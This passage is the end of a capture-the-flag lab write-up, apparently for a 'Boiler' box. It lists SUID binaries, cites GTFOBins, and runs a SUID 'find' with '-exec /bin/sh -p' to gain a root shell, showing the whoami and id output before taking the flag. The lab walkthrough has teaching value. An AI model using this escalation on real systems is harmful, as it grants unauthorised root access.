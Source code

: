 ```text
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
```

If we head over to https://gtfobins.github.io/gtfobins/find/ we can get the command we'll need to exploit this:

![gtfo.png](../assets/boiler_ctf_assets/gtfo.png)

Lets run it:

```text
stoner@Vulnerable:~$ cd /usr/bin
stoner@Vulnerable:/usr/bin$ ./find . -exec /bin/sh -p \; -quit
# whoami
root
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

All we need to do now is grab the root.txt flag:

![root_flag.png](../assets/boiler_ctf_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------





